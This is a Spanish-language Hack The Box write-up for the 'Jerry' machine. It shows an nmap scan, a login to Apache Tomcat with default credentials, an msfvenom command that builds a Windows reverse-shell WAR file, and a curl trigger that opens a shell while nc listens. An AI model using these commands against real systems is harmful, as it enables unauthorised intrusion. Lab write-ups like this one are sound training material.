 ```yaml
---
title: Jerry - HTB Writeup
date: 2023-09-06 22:00:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup, HTB, Penetration Testing, Ethical Hacking, Apache Tomcat, msfvenom, WAR File]
image:
  path: /assets/img/post/jerry/catherine-heath-i4W8OINLI_I-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Jerry** es una máquina de dificultad `Easy` en la plataforma **Hack The Box**

En esta máquina, vamos a explotar una vulnerabilidad en el servicio `Apache`, que se encuentra disponible en el puerto `8080`

## **Reconocimiento**

Como siempre, utilizaremos la herramienta `nmap` para identificar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
```

![img](/assets/img/post/jerry/feb426c5-b454-4f82-aaa7-5949a66c0751.png)

En la máquina, esta abierto solamente el puerto `8080`. Si introducimos la `URL` en el navegador junto con el puerto, podemos ver lo siguiente:

![img](/assets/img/post/jerry/0701b41c-55c8-4188-ba3f-75cf0c92fbcc.png)

Podemos **loguearnos** en el servicio **Apache Tomcat** con las credenciales predeterminadas `tomcat:s3cret`:

![img](/assets/img/post/jerry/658a5dde-829f-4032-8068-8d70f427a1e0.png)

Vemos que hay una sección donde podemos **subir archivos** `.war` , la cual usaremos para conseguir acceso al sistema:

![img](/assets/img/post/jerry/f13630bf-58f1-4988-bdea-0e9e224c5fc1.png)

### Web Aplication Resource Files

> Un archivo `WAR`, es un formato de archivo utilizado para **empaquetar y distribuir aplicaciones web** en la plataforma **Java**. Contiene todos los recursos necesarios para ejecutar una aplicación web en un solo archivo comprimido.

## Explotación

Utilizaremos la herramienta `msfvenom` para crear una `reverse shell` en windows y poder acceder mediante `nc`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war > rev_shell.war
```

![img](/assets/img/post/jerry/6f231e1c-e4ea-4e1c-a7ea-c9341910e71c.png)

Además, debemos saber el nombre del archivo `.jsp` para activarla con la herramienta `curl`. Para ello, utilizaremos `jar` para enumerar el contenido del archivo `.war`:

![img](/assets/img/post/jerry/bc65ae69-5fe0-4c28-a763-84e8280629c9.png)

Ahora subiremos la reverse shell mediante la web utilizando `curl`, y nos pondremos en escucha en otra terminal mediante `nc`:

```bash
curl http://10.10.10.95:8000/rev_shell/mdeonxmbgy.jsp
```

![img](/assets/img/post/jerry/7bd0c1bc-d7de-4a35-b8df-496fc4bce938.png)

De esta manera, ya tendremos acceso completo a la máquina víctima, donde podremos encontrar las flags en el `Desktop` del usuario `administrator`

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
